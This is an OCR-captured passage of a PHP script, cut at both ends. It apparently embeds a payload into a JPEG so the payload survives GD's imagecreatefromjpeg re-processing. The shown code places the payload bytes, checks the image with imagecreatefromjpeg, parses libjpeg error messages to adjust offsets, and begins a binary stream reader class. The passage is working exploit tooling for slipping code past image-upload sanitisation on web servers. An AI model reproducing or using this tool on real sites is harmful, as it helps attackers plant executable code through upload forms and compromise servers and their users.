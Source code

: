 ```php
                        substr($outStream, $startPos, $imageStreamSize),
                        0,
                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                    substr($outStream, $stopPos);
            } elseif($correctImage) {
                $outStream = $outStreamTmp;
            } else {
                break;
            }
            if(checkImage('payload_'.$argv[1], $outStream)) {
                die('Success!');
            } else {
                break;
            }
        }
    }
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');
function checkImage($filename, $data, $unlink = FALSE) {
    global $correctImage;
    file_put_contents($filename, $data);
    $correctImage = TRUE;
    imagecreatefromjpeg($filename);
    if($unlink)
        unlink($filename);
    return $correctImage;
}
function custom_error_handler($errno, $errstr, $errfile, $errline) {
    global $extraBytes, $correctImage;
    $correctImage = FALSE;
    if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
        if(isset($m[1])) {
            $extraBytes = (int)$m[1];
        }
    }
}
class DataInputStream {
    private $binData;
    private $order;
    private $size;
    public function __construct($filename, $order = false, $fromString = false) {
        $this->binData = '';
        $this->order = $order;
        if(!$fromString) {
            if(!file_exists($filename) || !is_file($filename))
                die('File not exists ['.$filename.']');
            $this->binData = file_get_contents($filename);
        } else {
            $this->binData = $filename;
        }
        $this->size = strlen($this->binData);
    }
    public function seek() {
        return ($this->size - strlen($this->binData));
    }
    public function skip($skip)
    {
        $this->binData = substr($this->binData, $skip);
    }
    public function readByte() {
        if($this->eof()) {
            die('End Of File');
```